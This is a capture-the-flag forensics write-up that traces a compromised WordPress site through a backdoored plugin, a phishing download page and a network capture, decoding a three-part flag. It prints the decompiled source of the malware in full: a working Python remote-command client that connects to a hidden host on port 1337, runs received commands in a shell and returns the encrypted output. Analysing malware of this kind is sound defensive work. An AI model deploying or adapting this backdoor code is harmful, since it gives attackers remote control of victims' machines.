# Inception Write Up



In this challenge, we have two files: a Linux server file system and a Wireshark network capture file.



Analyzing the file system, we found the website hosted on this server at /srv/www/. It is a WordPress website.



### The first part of the flag

In the WordPress files, specifically in the plugins folder (/srv/www/wp-content/plugins), we found two plugins.


The plugin-manager contains a single PHP file, which is unusual. In the plugin-manager.php code, we discovered a Pastebin link. 



Essentially, the script retrieves data from that Pastebin, decodes it from Base64, and executes it.



After decoding the Base64 text, we obtained a script (which is a reverse shell script). Within this script, we found a variable ($secpart) that holds the first part of the flag in decimal:



"65 75 65 83 69 67 123 55 104 51 95" -> `AKASEC{7h3_`

### The second part of the flag

Now that we have the first part, we still need to find the other two.

Next, we examined the main folder of WordPress. The index.php file refers us to free_items.php. The website displays the text: "Congrats! You Won a free Arduino! Click On The Image To See More Details," and clicking the image downloads an executable (which is malware).

Analyzing the website source code, we noticed obfuscated JavaScript. In the array of strings, we found a hex string containing the second part of the flag:



"3472375f30665f6326635f" -> `4r7_0f_c&c_`

### The third part of the flag

The JavaScript also contains a Base64 text of the executable, so we retrieved the malware for analysis.

#### Static Analysis of the Malware





The malware is a PE32+ executable written in Python. To reverse it and see the source code, I used [pyinstxtractor.py](https://github.com/extremecoders-re/pyinstxtractor) to extract the contents of this PyInstaller-generated executable file.



Once extracted, we decompiled the main file (client.pyc). It contained obfuscated Python code that establishes a connection to a remote server using port 1337 to receive and execute commands sent by the server. These commands are encrypted using AES and XOR.

```py
import socket
import sys
import time
import subprocess
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import padding
import os
_DW_ = 1337

def _X_X_(_):
    return ''.join((chr(__) for __ in _))

def _X_Y_(_):
    __ = len(_)
    ___ = ''.join([chr(ord(____) ^ __) for ____ in _])
    return ___
_0x20_ = _X_Y_(_X_X_([60, 58, 63, 35, 63, 63, 35, 63, 60, 35, 63, 61, 63]))
_0x0_ = _X_Y_(_X_X_([16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 65, 66, 67, 68, 69, 70, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 65, 66, 67, 68, 69, 70])).encode()
_0x01_ = _X_Y_(_X_X_([113, 114, 115, 116, 117, 118, 41, 40, 39, 38, 37, 36, 35, 34, 33, 32])).encode()
_0x00_ = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
_0x00_.connect((_0x20_, _DW_))

def _234234_(_):
    __ = len(_)
    ___ = ''.join([chr(ord(____) ^ __) for ____ in _])
    return ___

def _777_(_):
    __ = len(_)
    ___ = ''.join([chr(ord(____) ^ __) for ____ in _])
    return ___

def __(_0x, _, _func):
    _0xPP = padding.PKCS7(algorithms.AES.block_size).padder()
    _0xPD = _0xPP.update(_0x.encode()) + _0xPP.finalize()
    _0xC = Cipher(algorithms.AES(_), modes.CBC(_func), backend=default_backend())
    _0xE = _0xC.encryptor()
    _0x555 = _0xE.update(_0xPD) + _0xE.finalize()
    return _0x555

def ____(___, _____, _):
    _CC = Cipher(algorithms.AES(_____), modes.CBC(_), backend=default_backend())
    _D = _CC.decryptor()
    _DD = _D.update(___) + _D.finalize()
    u = padding.PKCS7(algorithms.AES.block_size).unpadder()
    _DD = u.update(_DD) + u.finalize()
    return _DD.decode()

def _(__):
    _ = b''
    while True:
        ___ = __.recv(1024)
        print(___)
        if not ___:
            break
        _ = _ + ___
        if len(___) < 1024:
            break
    return _

def _____(_, __, ___=1024):
    ____ = 0
    while ____ < len(__):
        _____ = _.send(__[____:____ + ___])
        ____ += _____
while True:
    try:
        ___________ = _(_0x00_)
        print(___________)
        ___________ = ____(___________, _0x0_, _0x01_)
        print(___________)
        ___________ = _777_(___________)
        print(___________)
        print('received : {}'.format(___________))
        ___________ = subprocess.run(___________, shell=True, capture_output=True, text=True)
        print(___________.returncode)
        if not ___________.returncode:
            print(___________.stdout)
            ___________ = _234234_(___________.stdout)
            ___________ = __(___________, _0x0_, _0x01_)
            _____(_0x00_, ___________)
        else:
            ___________ = _234234_(___________.stderr)
            ___________ = __(___________, _0x0_, _0x01_)
            _0x00_.send(___________)
    except KeyboardInterrupt:
        _0x00_.close()
        print('connection closed !!!')
        exit()
```

After deobfuscating the code, we found the key and IV used for AES encryption:

`KEY = b'0123456789abcdef0123456789abcdef'`
`IV = b'abcdef9876543210'`

Now that we have the network capture file, we can analyze the commands executed on the server.

#### Analyzing Network Traffic

We filtered the TCP protocol by port 1337 and followed the stream. The data in red represents the client commands sent to the server (the victim computer), while the blue data shows the output of those commands.



Next, we needed to change the output of the packets from ASCII to RAW.



This is the Python script I created to decrypt the traffic based on the script that encrypted them.

```py
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import padding

KEY = b'0123456789abcdef0123456789abcdef'
IV = b'abcdef9876543210'

def decrypt_xor(data):
    length = len(data)
    result = ''.join([chr(ord(i) ^ length) for i in data])
    return result

def to_decrypt(a, key, iv):
    CC = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
    D = CC.decryptor()
    DD = D.update(a) + D.finalize()
    u = padding.PKCS7(algorithms.AES.block_size).unpadder()
    DD = u.update(DD) + u.finalize()
    return DD.decode()

a = bytes.fromhex("") # here put the RAW data
a = to_decrypt(a, KEY, IV)
a = decrypt_xor(a)
print(a)
```

When decrypting the traffic, we found that one of the commands sent to the server contained the last part of the flag.



Flag : `AKASEC{7h3_4r7_0f_c&c_15_m1nd_bl0w1n6}`

### Conclusion

In conclusion, this challenge was good. I enjoyed it, even though I spent a significant amount of time finding the first part that was hidden in the plugin.

